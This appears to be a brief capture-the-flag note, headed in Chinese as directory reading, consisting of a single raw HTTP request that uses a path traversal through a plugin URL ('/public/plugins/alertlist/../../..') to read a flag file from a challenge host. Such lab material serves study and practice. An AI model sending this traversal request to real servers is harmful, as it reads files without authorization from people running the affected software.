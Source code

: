 - # 目录读取
	- ```http
	  GET /public/plugins/alertlist/../../../../../../../../flag HTTP/1.1
	  Host: node1.anna.nssctf.cn:28299
	  Upgrade-Insecure-Requests: 1
	  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
	  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
	  Accept-Encoding: gzip, deflate
	  Accept-Language: en-US,en;q=0.9
	  Connection: close
	  ```
-